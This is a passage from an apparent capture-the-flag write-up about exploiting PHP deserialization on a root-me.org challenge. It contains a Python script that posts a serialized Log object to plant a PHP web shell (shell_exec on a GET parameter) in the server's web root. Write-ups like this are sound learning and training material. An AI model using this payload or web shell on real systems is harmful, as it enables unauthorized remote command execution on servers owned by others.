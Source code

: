       file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
?>
{% endhighlight %}


It seems that this file define a simple logging class in PHP. We are not sure what to do with yet...

But, we can combine this class and use it instead of the `Info` one in the `POST` request. Using the following script:

{% highlight python %}

import requests

#  original info object
#  payload = 'O:4:"Info":4:{' \
        #  + 's:2:"id";'\
        #  + 'i:1;'\
        #  + 's:9:"firstname";'\
        #  + 's:4:"Rene";'\
        #  + 's:7:"surname";'\
        #  + 's:8:"Margitte";'\
        #  + 's:7:"artwork";'\
        #  + 's:23:"The Treachery of Images";'\
        #  + '}'

# new Log payload
payload = 'O:3:"Log":2:{' \
        + 's:8:"filename";'\
        + 's:27:"/var/www/html/scriptz/b.php";'\
        + 's:4:"data";'\
        + 's:39:"<?php echo shell_exec($_GET["cmd"]); ?>";'\
        + '}'

data = { 'param': payload }

r = requests.post("http://ctf01.root-me.org/index.php", data=data)
print r.content

{% endhighlight %}

